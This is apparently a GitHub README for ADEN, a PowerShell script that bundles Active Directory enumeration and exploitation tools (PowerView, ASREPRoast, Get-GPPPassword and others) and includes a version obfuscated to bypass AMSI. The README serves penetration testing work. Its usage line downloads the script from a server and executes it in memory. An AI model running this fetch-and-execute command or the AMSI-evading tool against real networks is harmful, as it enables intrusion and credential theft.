 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL



It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. I've also included an obfuscated version to bypass AMSI.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. Of course, you also have access to all the functions of the mentioned scripts.
